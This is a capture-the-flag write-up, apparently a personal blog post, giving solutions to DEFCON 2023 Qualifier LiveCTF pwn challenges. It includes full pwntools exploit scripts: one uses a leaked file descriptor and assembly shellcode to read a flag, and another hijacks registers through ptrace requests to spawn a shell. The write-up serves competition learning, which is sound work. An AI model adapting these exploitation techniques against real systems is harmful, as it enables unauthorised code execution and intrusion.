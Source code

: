 ```yaml
---
title: "DEFCON 2023 Qualifier: LiveCTF"
tags: Pwn
style: border
color: dark
comments: true
description: Solutions to LiveCTF challenges from DEFCON 2023 Quals
---
```


# LiveCTF

LiveCTF is a sub category of DEFCON competition which mostly comprosises with binary challenges with easier difficulty- but with less time and points.
The key to utilize LiveCTF in DEFCON is to solve it as fast as possible while using the least manpower as possible.

An interesting thing about LiveCTF challenges is its own unique way of submitting its solutions. Instead of directly pasting the flag, we submit a compressed solution file containing a Dockerfile and the exploit.

At the DEFCON 2023 Qualification Round, there were a total of 7 LiveCTF challenges.

I focused on LiveCTFs in this qualification round and will go over some pwn (binary) challenges that I worked on/solved.

## LiveCTF Practice Challenge

The solution is given, as it is just to make sure the submition system works:

```python
from pwn import *
HOST = os.environ.get('HOST', 'localhost')
PORT = 31337

r = remote(HOST, int(PORT))
r.recvline_contains(b'Give me input: ')
r.sendline(b'WIN')
r.recvline_contains(b'You sent: ')
r.sendline(b'./submitter')
flag = r.recvline_contains(b'LiveCTF{').decode().strip()
log.info('Flag: %s', flag)
```

## benshmark

In the challenge source code, 
```c
if ( read(f, code, 0x100uLL) == -1 )
{
    puts("read failed");
    free(code);
}
```
Fail in reading a file doesn't close the file descriptor, therefore, can be leaked.
- Read /flag twice
- Trigger read fail and leak fd
- Run shellcode to read from fd
- Get flag

### Exploit
A solution by my teammate from ```P1G BuT S4D```:
```python
#!/usr/bin/env python3

from pwn import *
import re

context.arch = "amd64"
context.log_level = "DEBUG"
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

HOST = os.environ.get('HOST', 'localhost')
PORT = 31337

# r = remote(HOST, int(PORT))
r = process("../handout/challenge")

r.sendlineafter(b"Choice:", b"1")
r.sendlineafter(b">", b"/flag")

r.sendlineafter(b"Choice:", b"1")
r.sendlineafter(b">", b"/flag")

r.sendlineafter(b"Choice:", b"1")
r.sendlineafter(b">", b"/proc/self/fd/0")

r.send(asm("""
    call A
A:
    pop rdx
ZALOOP:
    mov rax, 8882879963476683084
    cmp QWORD PTR [rdx], rax
    je FOUND
    dec rdx
    jmp ZALOOP
FOUND:
    mov rdi, QWORD PTR [rdx]
    
    mov rsi, rbp
    sub rsi, 0x28
    mov rsi, QWORD PTR [rsi]
    add rsi, 0x0c
    mov rdi, QWORD PTR [rdx]
    mov QWORD PTR [rsi], rdi
    mov rdi, QWORD PTR [rdx+8]
    mov QWORD PTR [rsi+8], rdi
    mov rdi, QWORD PTR [rdx+16]
    mov QWORD PTR [rsi+16], rdi
    mov rdi, QWORD PTR [rdx+24]
    mov QWORD PTR [rsi+24], rdi
    ret
"""))

gdb.attach(r)

r.sendlineafter(b"Choice:", b"2")
print(re.findall(rb'LiveCTF{[^}{}]+}', r.recvall(timeout=3))[0].decode())
```

## ptrace-me-maybe

The challenge spawns a child process and lets the user run any kind of ptrace requests as much as the user wants.

We can exploit the challenge by:
- Leak libc base through PTRACE_PEEKUSER request
- Write ```system``` to RIP and "/bin/sh" to RDI through PTRACE_POKEUSER request
- Restart child process by PTRACE_CONT with the new register values
- Get shell

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

context.arch = "amd64"
context.log_level = "DEBUG"
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

HOST = os.environ.get('HOST', 'localhost')
PORT = 31337

system_offset = 331104
binsh_offset = 1935000

r = remote(HOST, int(PORT))
# r = process("./challenge")

r.sendlineafter(b"send?", b"0x3")
r.sendlineafter(b"want?", b"0x80")
r.sendlineafter(b"data?", b"0x0")

r.recvuntil(b"returned ")
leak = int(r.recvline().strip()[2:].decode(), 16)

r.sendlineafter(b"(0/1)?", "1")

libc_base = leak - 0x7ffff7e7abc7 + 0x7ffff7d91000 - 0x1000

r.sendlineafter(b"send?", b"0x6")
r.sendlineafter(b"want?", b"0x80")
r.sendlineafter(b"data?", hex(libc_base + system_offset).encode())
r.sendlineafter(b"(0/1)?", b"1")

r.sendlineafter(b"send?", b"0x6")
r.sendlineafter(b"want?", b"0x70")
r.sendlineafter(b"data?", hex(libc_base + binsh_offset).encode())
r.sendlineafter(b"(0/1)?", b"1")

# gdb.attach(r)

r.sendlineafter(b"send?", b"0x7")
r.sendlineafter(b"want?", b"0x0")
r.sendlineafter(b"data?", b"0x0")

# print(hex(libc_base))

# pause()
r.sendlineafter(b"(0/1)?", b"0")

sleep(1)

r.sendline(b'./submitter')

flag = r.recvline_contains(b'LiveCTF{').decode().strip()
log.info('Flag: %s', flag)

```

Thanks,

079
